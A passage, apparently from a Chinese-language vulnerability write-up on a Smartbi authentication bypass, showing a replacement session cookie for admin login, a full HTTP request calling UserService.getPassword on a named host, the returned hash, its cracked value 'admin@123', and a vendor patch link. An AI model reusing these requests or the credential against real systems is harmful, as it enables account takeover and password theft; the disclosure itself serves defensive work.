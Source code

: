替换如下 Cookie 标头便能成功实现管理员用户登录。

```text
Cookie: smartbi_smartbi_sessionid=I8a8a86440188d7d8d7d84ba80189be86d8f62d0d; JSESSIONID=82214AE5A1234133379C4ED20E0A5CF8
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/2c01a18f-e8cf-4dca-bf3d-e7acba91b55d/logged-in.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=519d40dc40ea9ceb8f6256be96ea5cb64170eedf6ba249affbed0c8f01e5fc39&X-Amz-SignedHeaders=host&x-id=GetObject)

当然，还可以利用如上 Cookie 直接获取用户的密码，不过不是明文。

```text
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: smartbi-test.miaozhen.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Cookie: smartbi_smartbi_sessionid=I8a8a86440188d7d8d7d84ba80189be86d8f62d0d; JSESSIONID=82214AE5A1234133379C4ED20E0A5CF8; CookieLanguageName=ZH-CN
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

className=UserService&methodName=getPassword&params=["admin"]
```

```text
HTTP/1.1 200
Server: nginx
Date: Wed, 02 Aug 2023 03:06:56 GMT
Content-Type: text/plain;charset=UTF-8
Content-Length: 71
Connection: close

{"retCode":0,"result":"0e6e061838856bf47e1de730719fb2609","duration":0}
```

如上响应中的`result`字段值，将其首位的`0`去掉就是一段 MD5 密文，解密后会发现是`admin@123`。

## 修复建议

目前厂商已发布安全补丁以修复这个安全问题，请通过如下链接下载安全补丁：

- [https://www.smartbi.com.cn/patchinfo](https://www.smartbi.com.cn/patchinfo)
